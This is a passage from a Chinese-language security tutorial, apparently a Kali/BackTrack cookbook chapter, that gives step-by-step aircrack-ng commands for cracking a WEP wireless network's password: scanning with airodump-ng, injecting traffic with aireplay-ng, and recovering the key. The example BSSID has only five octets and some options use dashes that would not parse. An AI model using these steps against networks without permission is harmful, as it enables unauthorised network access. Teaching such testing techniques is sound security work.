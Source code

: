5.  现在我们需要重启` airmon-ng`。

    ```
    airmon-ng start wlan0
    ```
    
6.  下面，我们会使用` airodump`来定位附近的可用无线网络。

    ```
    airodump-ng wlan0 
    ```
    
7.  这会出现可用无线网络的列表。一旦你找到了你想要攻击的网络，按下`Ctrl + C`来停止搜索。选中`BSSID`列中的 MAC 地址，右击你的鼠标，并且选择复制。同时，把网络正在发送哪个频道的信号记录下载。你会在`Channel`列中找到这个信息。这里，这个频道是`10`。

8.  现在运行`airodump`，并且将所选`BSSID`的信息复制到文件中。我们会使用下列选项：

    +   `-c`允许我们选择频道。这里我们选择`10`。
    
    +   `-w`允许我们选择文件名称。这里我们选择`wirelessattack`。
    
    +   `-bssid`允许我们选择我们的`BSSID`。这里，我们从剪贴板上粘贴`09:AC:90:AB:78`。
    
    ```
    airodump-ng –c 10 –w wirelessattack --bssid 09:AC:90:AB:78 wlan0 
    ```
    
9.  新的窗口会打开，并展示这个命令的输出。保持这个窗口开着。

0.  打开另一个终端窗口，为了尝试组合它们，我们运行`aireplay`。它拥有下列语法：`aireplay-ng -1 0 –a [BSSID] –h [our chosen MAC address] –e [ESSID] [Interface]`。

    ```
    aireplay-ng -1 0 -a 09:AC:90:AB:78 –h 00:11:22:33:44:55 –e backtrack wlan0
    ```
    
1.  下面，我们发送一些流量给路由器，便于捕获一些数据。我们再次使用`aireplay`，以下列格式：` aireplay-ng -3 –b [BSSID] – h [Our chosen MAC address] [Interface]`。

    ```
    aireplay-ng -3 –b 09:AC:90:AB:78 –h 00:11:22:33:44:55 wlan0
    ```
    
2.  你的屏幕会开始被流量填满。将它运行一到两分钟，直到你拥有了用来执行破解的信息。

3.  最后我们运行 AirCrack 来破解 WEP 密码。

    ```
    aircrack-ng –b 09:AC:90:AB:78 wirelessattack.cap 
    ```
    
    这就结束了。
    
### 工作原理

在这个秘籍中，我们使用了 AirCrack 套件来破解无线网络的 WEP 密码。AirCrack 是最流行的 WEP 破解工具之一。AirCrack 通过收集 WEP 无线连接的封包来工作，之后它会通过算术分析数据来破解 WEP 加密密码。我们通过启动 AirCrack 并选择我们想要的接口来开始。下面，我们修改了 MAC 地址，这允许我们修改互联网上的身份，之后使用`airodump`搜索可用的无线网络来攻击。一旦我们找到了打算攻击的网络，我们使用`aireplay`来将我们的机器与正在攻击的无线设备的 MAC 地址关联。我们最后收集到了一些流量，之后暴力破解生成的 CAP 文件来获得无线密码。
